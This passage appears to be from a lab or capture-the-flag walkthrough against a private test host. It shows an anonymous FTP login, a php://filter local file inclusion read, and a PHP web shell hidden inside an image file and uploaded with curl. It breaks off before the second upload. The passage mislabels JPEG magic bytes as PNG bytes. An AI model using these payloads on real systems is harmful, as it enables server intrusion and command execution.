 ```plaintext
Name (192.168.1.20:zengla): anonymous
331 Please specify the password.
Password:
230 Login successful.
```

I was able to log in successfully.

### Web Exploitation

I identified a potential vulnerability in the `files_api.php` script. It seemed to be vulnerable to local file inclusion, but with some filtering.

I tried to bypass the filtering by encoding the file content using base64:

```shellscript
curl -s -X POST http://192.168.1.20:8011/api/files_api.php \
  -d "file=php://filter/convert.base64-encode/resource=/var/www/html/api/files_api.php"
```

This returned a base64 encoded version of the `files_api.php` source code.

I then tried to upload a reverse shell using the uploader on port 80. First, I created a simple PHP reverse shell:

```php
<?php system($_GET["cmd"]); ?>
```

I saved this as `shell.php` and prepended the magic bytes for a PNG image to bypass the file type check:

```shellscript
echo -e '\xFF\xD8\xFF\xE0<?php system($_GET["cmd"]); ?>' > shell.jpg
```

I then uploaded the file:

```shellscript
curl -u frank:'frank!!!' -X POST http://192.168.1.20/development/uploader/upload.php \
  -F "fileToUpload=@shell.jpg" \
  -F "submit=Upload Image"
```

The upload failed because the file was not recognized as an image.

I then downloaded a legitimate PNG image:

```shellscript
wget https://placehold.co/600x400.png -O base.png
```

I combined the PNG image with the PHP code:

```shellscript
cp base.png shell.php.png
echo '<?php system($_GET["cmd"]); ?>' >> shell.php.png
```

I then uploaded the combined file:

